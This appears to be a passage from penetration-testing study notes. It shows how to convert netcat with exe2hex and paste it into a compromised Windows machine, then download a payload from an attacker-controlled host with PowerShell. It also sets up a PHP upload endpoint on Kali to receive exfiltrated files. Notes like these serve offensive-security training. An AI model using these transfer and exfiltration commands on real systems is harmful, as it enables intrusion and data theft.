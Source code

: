 3. Use [exe2hex](exe2hex.md) to convert to Windows script (**.cmd**)  
```bash
kali@kali:~$ exe2hex -x nc.exe -p nc.cmd  
[*] exe2hex v1.5.1  
[+] Successfully wrote (PoSh) nc.cmd
```
	- Converts the file to hex and instructs powershell.exe to assemble it back into binary  
  
4. Copy the script into clipboard:  
```bash
cat nc.cmd | xclip -selection clipboard
```

5. Paste into compromised comp's terminal.  
  
  
If copy/ paste doesn't work & you need to download the **.cmd** file from w/in the compromised machine's cmd prompt:  
```powershell
C:\Users\Offsec> powershell -command (New-Object System.Net.WebClient).DownloadFile('http://attacker_ip/evil.cmd', 'evil.cmd')
```



### Exfill via Scripting:

Assuming outbound HTTP traffic is allowed, we can use the _System.Net.WebClient_ PowerShell class to upload data to our Kali machine through an HTTP POST request.  
  
  
Setup:  
  
1. PHP script **upload.php** saved in Kali's **var/www/html**:  
```php
<?php  
$uploaddir = '/var/www/uploads/';  
  
$uploadfile = $uploaddir . $_FILES['file']['name'];  
  
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)  
?>
```
	Processes an incoming file upload request and saves the transferred data to the **/var/www/uploads/** directory.  

2. Create **uploads** folder & modify its perms so _www-data_ is owner & can read/ write:  
```bash
kali@kali:/var/www$ sudo mkdir /var/www/uploads  
  
kali@kali:/var/www$ ps -ef | grep apache  
root      1946     1  0 21:39 ?        00:00:00 /usr/sbin/apache2 -k start  
www-data  1947  1946  0 21:39 ?        00:00:00 /usr/sbin/apache2 -k start  
  
kali@kali:/var/www$ sudo chown www-data: /var/www/uploads  
  
kali@kali:/var/www$ ls -la  
total 16  
drwxr-xr-x  4 root     root     4096 Feb  2 00:33 .  
drwxr-xr-x 13 root     root     4096 Sep 20 14:57 ..  
drwxr-xr-x  2 root     root     4096 Feb  2 00:33 html  
drwxr-xr-x  2 www-data www-data 4096 Feb  2 00:33 uploads
```
	*Allows anyone interacting w/ **uploads.php** to send anything to our machine*
  